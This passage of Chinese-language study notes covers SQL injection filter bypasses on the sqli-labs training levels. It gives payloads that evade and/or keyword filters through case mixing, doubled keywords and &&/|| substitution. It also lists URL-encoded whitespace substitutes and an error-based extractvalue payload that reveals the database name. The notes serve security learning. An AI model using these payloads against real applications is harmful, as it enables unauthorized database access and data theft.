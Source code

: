 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220818125856993.png" alt="image-20220818125856993" style="zoom:50%;" />

`但是，使用这种方法之后，order by和group by会失效而使用其他语句不会失效，所以要想使用这种方法进行绕过，必须先知道列数。`

### 3.5.2 and和or过滤绕过

#### 绕过方法

**以源代码中会取出提交id里的and为例**

1.使用大小写绕过

例：`?id=1' anD 1=1 #`

2.复写过滤字符

例：`?id=1' anandd 1=1 #`

3.用&&取代and，用||取代or

`一般使用url编码，不然服务器可能识别不到。&的编码是%26`

例：`?id=1' && 1=1 #`

#### less-25

复写可以进行绕过

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220818135119819.png" alt="image-20220818135119819" style="zoom:50%;" />

### 3.5.3 空格过滤绕过

#### 绕过方法(靶场为less-26)

1.使用+代替空格

2.使用url编码代替空格

| 适用范围              | url编码 |
| --------------------- | ------- |
| 空格                  | %20     |
| TAB 09 horizontal TAB | %09     |
| LF OA newline         | %0A     |
| FF 0C new page        | %0C     |
| CR 0D carriage return | %0D     |
| VT 0B vertical TAB    | %0B     |
| OA（仅适用于MYSQL）   | %A0     |

3.使用报错注入

```sql
?id=1'||extractvalue(1,concat(0x7e,(select database())))||'1'='1
```
